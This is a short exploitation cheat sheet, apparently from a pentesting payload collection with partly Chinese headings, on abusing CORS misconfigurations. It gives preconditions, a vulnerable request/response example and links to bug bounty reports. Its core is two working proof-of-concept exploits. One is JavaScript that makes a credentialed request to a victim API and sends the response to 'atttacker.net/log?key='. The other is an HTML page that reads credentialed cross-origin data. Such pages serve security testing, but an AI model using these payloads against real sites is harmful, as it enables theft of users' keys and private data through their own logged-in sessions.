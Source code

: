 # CORS Misconfiguration(误配置)

> CORS配置错误出现在API上。这允许攻击者代表用户发出跨源请求，因为应用程序没有白名单源头，并且具有访问控制允许凭据：这意味着我们可以使用受害者的凭据从攻击者的站点发出请求

## 概要

* [前提](#前提)
* [Exploitation](#exploitation)
* [References](#references)

## 前提

* BURP HEADER> `Origin: https://evil.com`
* VICTIM HEADER> `Access-Control-Allow-Credential: true`
* VICTIM HEADER> `Access-Control-Allow-Origin: https://evil.com`

## 漏洞利用

Usually you want to target an API endpoint. Use the following payload to exploit a CORS misconfiguration on target **https://victim.example.com/endpoint**.

### Vulnerable example 

```powershell
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: https://evil.com
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

### Proof of concept

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://victim.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

or 

```html
<html>
     <body>
         <h2>CORS PoC</h2>
         <div id="demo">
             <button type="button" onclick="cors()">Exploit</button>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET",
                       "https://victim.example.com/endpoint", true);
             xhr.withCredentials = true;
             xhr.send();
             }
         </script>
     </body>
 </html>
```

## Bug Bounty reports

* [CORS Misconfiguration on www.zomato.com - James Kettle (albinowax)](https://hackerone.com/reports/168574)
* [CORS misconfig | Account Takeover - niche.co - Rohan (nahoragg)](https://hackerone.com/reports/426147)
* [Cross-origin resource sharing misconfig | steal user information - bughunterboy (bughunterboy)](https://hackerone.com/reports/235200)
* [CORS Misconfiguration leading to Private Information Disclosure - sandh0t (sandh0t)](https://hackerone.com/reports/430249)
* [[██████] Cross-origin resource sharing misconfiguration (CORS) - Vadim (jarvis7)](https://hackerone.com/reports/470298)

## References

* [Think Outside the Scope: Advanced CORS Exploitation Techniques - @Sandh0t - May 14 2019](https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397)
* [Exploiting CORS misconfigurations for Bitcoins and bounties - James Kettle | 14 October 2016](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
* [Exploiting Misconfigured CORS (Cross Origin Resource Sharing) - Geekboy - DECEMBER 16, 2016](https://www.geekboy.ninja/blog/exploiting-misconfigured-cors-cross-origin-resource-sharing/)
* [Advanced CORS Exploitation Techniques - Corben Leo - June 16, 2018](https://www.corben.io/advanced-cors-techniques/)
